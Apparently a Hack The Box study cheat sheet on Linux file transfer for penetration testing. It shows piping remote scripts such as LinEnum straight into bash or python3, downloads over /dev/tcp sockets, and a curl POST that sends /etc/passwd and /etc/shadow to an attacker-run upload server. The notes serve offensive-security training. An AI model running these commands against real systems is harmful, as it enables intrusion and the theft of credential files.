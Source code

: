 [[linux]]
[[File transfer common]]
# Download files
```shell
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

#### Fileless
```shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

#### Bash
#bash
```shell
h@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80

h@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

h@htb[/htb]$ cat <&3
```

#### SSH
[[ssh]]
```shell
h@htb[/htb]$ sudo systemctl start ssh

h@htb[/htb]$ scp plaintext@192.168.49.128:/root/myroot.txt . 
```

# Upload files

Start server:
```shell
h@htb[/htb]$ sudo python3 -m pip install --user uploadserver

h@htb[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

h@htb[/htb]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
Upload:
```shell
h@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

Python/PHP/Ruby servers:
#python #php [[ruby]]
```shell
h@htb[/htb]$ python3 -m http.server

h@htb[/htb]$ python2.7 -m SimpleHTTPServer

h@htb[/htb]$ php -S 0.0.0.0:8000

h@htb[/htb]$ ruby -run -ehttpd . -p8000
```